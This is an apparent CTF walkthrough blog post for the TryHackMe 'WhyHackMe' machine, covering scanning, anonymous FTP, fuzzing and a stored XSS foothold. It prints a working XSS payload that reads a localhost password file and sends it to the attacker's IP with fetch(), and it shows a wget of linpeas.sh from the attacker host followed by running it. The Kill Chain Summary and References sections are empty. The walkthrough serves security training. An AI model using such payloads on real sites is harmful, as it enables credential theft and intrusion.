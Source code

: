 ```yaml
---
layout: post
title:  "TryHackMe | Whyhackme"
description: "Walkthrough of whyhackme machine, a Medium rated box from TryHackme"
date: "2024-11-11"
pin: true
image:
  path: ../assets/img/ctf/tryhackme/whyhackme1.png
  alt: "whyhackme.thm"
category: "TryHackMe"
tags: ["ThyHackMe", "Stored XSS", "Iptables Rules", "TLS Traffic Decryption"]
---
```

## Introduction
------------------------------------------------------------------------------------------
[WhyHackMe](https://tryhackme.com/r/room/whyhackme) is a medium rated linux box from tryhackme. It has 3 ports opens 21 running ftp, 22 running ssh and 80 running a web application. The foothold consist of exploiting a stored XSS vulnerability to exfiltrate a critical file that can be dicovered on the ftp server. The privilege escalation part involve playing with ipatables rules and decrypting some TLS traffic to access a backdoor runing on a particular port. From here get a reverse shell as www-data who his allowed to run any command as root without a password.

------------------------------------------------------------------------------------------


## Enumeration

### All Open Ports
```bash
rustscan -a 10.10.4.243
```

```text
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
           Raw packets sent: 7 (284B) | Rcvd: 4 (160B)
```
### Services Scanning
```bash
nmap -p21,22,80 -sC -sV -oN whyhackme.full 10.10.4.243
```

```text
Nmap scan report for 10.10.4.243
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.2.138
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)
|   256 cb:29:97:dc:fd:85:d9:ea:f8:84:98:0b:66:10:5e:6f (ECDSA)
|_  256 12:3f:38:92:a7:ba:7f:da:a7:18:4f:0d:ff:56:c1:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome!!
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.99 seconds
```
### Hostname
```bash
echo '10.10.4.243   whyhackme.thm' >> /etc/hosts
```

## FootHold
### Port 21
Since we have anonymous access on the ftp server let's check what we can find there.
```bash
ftp whyhackme.thm
```
![ftp access](./assets/img/ctf/tryhackme/whyhackme2.png)

```text
└─# cat update.txt       
Hey I just removed the old user mike because that account was compromised and for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt and don't worry this file is only accessible by localhost(127.0.0.1), so nobody else can view it except me or people with access to the common account. 

- admin
```
The update.txt file contains an admin message telling that the new account creds can be find at 127.0.0.1/dir/pass.txt, however this is only accessible from localhost.

### Port 80
![web root](./assets/img/ctf/tryhackme/whyhackme3.png)
```bash
ffuf -c -u http://whyhackme.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php
```

```text
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://whyhackme.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 58ms]
assets                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 55ms]
blog.php                [Status: 200, Size: 3102, Words: 422, Lines: 23, Duration: 54ms]
.php                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8150ms]
.htpasswd.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8583ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8801ms]
.htaccess.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 9094ms]
.hta.php                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 9471ms]
cgi-bin/                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 55ms]
cgi-bin/.php            [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 58ms]
                        [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 54ms]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 54ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 56ms]
dir                     [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 61ms]
index.php               [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 66ms]
index.php               [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 68ms]
login.php               [Status: 200, Size: 523, Words: 45, Lines: 21, Duration: 59ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
register.php            [Status: 200, Size: 643, Words: 36, Lines: 23, Duration: 64ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 60ms]
```
![registration](./assets/img/ctf/tryhackme/whyhackme4.png)
One registered, we can login at `/login.php`. After loged in we can access the blog page where we are allowed to add comments. Let's try adding a comment... 
![blog](./assets/img/ctf/tryhackme/whyhackme9.png)
As we can see, our comment get obviously saved on the server and can be viewed by all the users. We can test for xss there but also in the username field of the registration page since our username also get displayed back.
After trying, i got my xss payload from the username field executed...
![no xss](./assets/img/ctf/tryhackme/whyhackme10.png)
![xss-malicioususer](./assets/img/ctf/tryhackme/whyhackme11.png)
![xss-poc](./assets/img/ctf/tryhackme/whyhackme12.png)
How can we leverage this xss? The admin comment on the blog: `Hey people, I will be monitoring your comments so please be safe and civil`, this suggest us that we can try to leverage this and steal the admin cookie so we can be can have admin access in the applicatin. I've tryied that but no success. However, a recall that we have gotten an admin note from the ftp server. Since we can't access the admin cookie but still can perform actions as admin and in our case i guess the admin is acccessing the blog from localhost. This gives us an opportunity using the xss to exfiltrate the pass.txt file.
```js
<script>fetch("http://127.0.0.1/dir/pass.txt").then(r => r.text()).then(t => fetch("http://10.9.2.138/?q="+t,{mode:"no-cors"}))</script>
```
![exfiltration](./assets/img/ctf/tryhackme/whyhackme13.png)

### Port 22
```bash
ssh jack@whyhackme.thm
```
![registration](./assets/img/ctf/tryhackme/whyhackme5.png)


## Privilege Escalation
```bash
wget http://10.9.2.138/linpeas.sh
./linpeas.sh
```
![sudo -l](./assets/img/ctf/tryhackme/whyhackme6.png)
![another vhost](./assets/img/ctf/tryhackme/whyhackme7.png)
![opt folder](./assets/img/ctf/tryhackme/whyhackme8.png)


## Kill Chain Summary


## References